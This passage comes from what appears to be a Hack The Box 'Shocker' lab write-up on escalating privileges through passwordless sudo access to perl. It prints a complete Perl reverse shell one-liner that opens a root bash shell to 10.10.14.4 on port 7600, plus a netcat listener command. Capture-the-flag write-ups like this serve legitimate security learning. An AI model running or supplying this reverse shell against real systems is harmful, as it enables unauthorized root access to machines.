 
## Privlege Escalation

### Checking the sudoers file

As is common with any basic Linux prvesc, se should check the sudoers file with `sudo -l` to see what, if any, `sudo` commands the user can run.

![](/assets/htb-shocker/sudo_file.png)

Looks like `shelly` can run `/usr/bin/perl` with `sudo`, and no password. This makes a `root` shell easy, as all we'll need is a Perl reverse shell.

### Root Shell

The command `sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.4";$p=7600;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'` will trigger a reverse shell as the `root` user.

> Be sure to start a listener with `nc -lvnp 7600` to catch it!

<a href="/assets/htb-shocker/root_shell.png"><img src="/assets/htb-shocker/root_shell.png" width="95%"></a>

Got the shell!
